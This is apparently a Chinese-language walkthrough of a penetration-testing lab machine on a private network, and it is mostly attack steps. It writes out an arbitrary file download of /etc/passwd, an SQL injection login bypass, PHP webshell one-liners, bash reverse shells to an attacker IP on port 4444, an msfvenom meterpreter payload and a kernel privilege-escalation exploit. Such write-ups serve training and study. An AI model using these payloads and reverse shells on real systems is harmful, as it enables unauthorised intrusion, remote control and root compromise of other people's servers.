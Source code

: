 dirb http://172.16.123105
/usr/share/dirb/wordlists/big.txt（目录扫描）（知识盲区）

test.php
：文件任意下载界面，特别细节这里表示get而是post传参file=/etc/passwd;黑盒转白盒的关键；下载所有文件方便后期分析。（知识盲区）

c.php ：Mysql 账号信息（为后面埋下伏笔）

in.php?id=any_word :御剑扫出的phpinfo()
(不得不说御剑真是个怪宝贝，phpinfo没什么大用)

pande.php：代码审计发现是个有条件的文件包含，和上传（很明显是上传图片马的节奏但是这就要登录，所以要找到密码登录）\$\_POST\[\'continue\'\]
必须有值 \$\_POST\[\'load\'\] 不能为show和add （知识盲区）

index.php：发现有sql注入漏洞

/phpmy ：phpmyadmin登录界面

漏洞利用：

index.php pass：1\\ 注释掉单引号 user： or 1=1 \--+ 登录成功
（知识盲区）

用c.php得到的密码登录/phpmy（数据库绝对是有登录密码或者其他提示的）

从数据库找到密码登录index.php 得到文件上传，因前铺垫我们很容易想到图片马

连接可以使用命令的图片马内容为"\<?php system(\$\_POST\[cmd\])?\>\"

可以使用命令后使用：ls -l查看是否有权限特别低的文件目录好进行后面的提权

发现uploaded_images什么权限都有，这时我们可以echo
个一句话连菜刀（一句话必须是echo \'\<?php
\@eval(\$\_POST\[\'cmd\'\]);?\>\' /uploaded_images/s.php
必须是\'而不是\"）（知识没记住）

法二：利用test.php下载/var/www/phpmy/config.inc.php 里面有账户信息

本地提权：

法二：ssh登录root

[法一：echo 升级版bash反弹]{.mark}

echo \"bash -i \>& /dev/tcp/172.16.123.102/4444 0\>&1\" \| bash

使用脚本提权root

法二：写入\<?php system(\"bash -c \'bash -i \>&
/dev/tcp/172.16.123.102/4444 0\>&1\' \")?\>

法三：菜刀连接发现内核漏洞 CVE-2015-1328 使用searchsploit 3.13.0
使用脚本发现菜刀环境问题（毕竟它只是虚拟终端）使用不了应该换一个方式比如说木马生成后门监听；

msfvenom -p php/meterpreter/reverse_tcp LHOST=172.16.123.105 -f raw \>
/s.php

菜刀上传网页访问[[http://172.16.123.105/uploaded_images/s.php]{.underline}](http://172.16.123.105/uploaded_images/s.php)

然后使用脚本及成功提权为root用户

